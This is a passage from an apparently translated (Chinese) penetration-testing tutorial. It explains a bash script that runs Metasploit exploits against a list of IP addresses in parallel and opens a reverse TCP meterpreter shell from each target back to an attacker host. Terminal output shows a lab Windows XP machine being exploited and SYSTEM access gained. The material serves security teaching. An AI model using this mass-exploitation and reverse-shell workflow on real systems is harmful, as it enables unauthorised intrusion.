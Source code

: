 脚本使用`for`循环，对输入文本文件中列出的每个 IP 地址执行特定任务。 该特定任务包括启动一个新的 GNOME 终端，该终端又执行必要的`msfcli`命令来利用该特定系统，然后启动反向 TCP meterpreter shell。 因为`for`循环为每个 MSFCLI 漏洞启动一个新的 GNOME 终端，每个都作为一个独立的进程执行。 以这种方式，多个进程可以并行运行，并且每个目标将被同时利用。 本地端口值被初始化为 4444，并且对被利用的每个附加系统增加 1，使每个 meterpreter shell 连接到不同的本地端口。 因为每个进程在独立的 shell 中执行，所以这个脚本需要从图形桌面界面执行，而不是通过 SSH 连接执行。 `./multipwn.sh bash shell`可以执行如下：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> <LHOST> 
root@KaliLinux:~# ./multipwn.sh iplist.txt 172.16.36.239 
Exploiting 172.16.36.132 and establishing reverse connection on local port 4444 
Exploiting 172.16.36.158 and establishing reverse connection on local port 4445 
Exploiting 172.16.36.225 and establishing reverse connection on local port 4446
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述将表明，该脚本以定义监听 IP 系统的`LHOST`变量，以及包含目标 IP 地址列表的文本文件的文件名来执行。 一旦以这些参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始的执行终端将在执行时输出进程列表。 所提供的示例利用了三个不同的系统，并且为每个系统打开单独的终端。其中一个终端的示例如下：

```
[*] Please wait while we load the module tree...
     ,           ,    
    /             \  
   ((__---,,,---__))   
      (_) O O (_)_________    
         \ _ /            |\    
          o_o \   M S F   | \  
               \   _____  |  *    
                |||   WW|||      
                |||     |||

Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with Metasploit Pro -- type 'go_pro' to launch it now.

 =[ metasploit v4.6.0-dev [core:4.6 api:1.0] 
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post 
+ -- --=[ 275 payloads - 28 encoders - 8 nops

PAYLOAD => windows/meterpreter/reverse_tcp 
RHOST => 172.16.36.225 
LHOST => 172.16.36.239 
LPORT => 4446 
[*] Started reverse handler on 172.16.36.239:4446 
[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 172.16.36.225 
[*] Meterpreter session 1 opened (172.16.36.239:4446 -> 172.16.36.225:1950) at 2014-04-10 07:12:44 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM 
meterpreter >
```
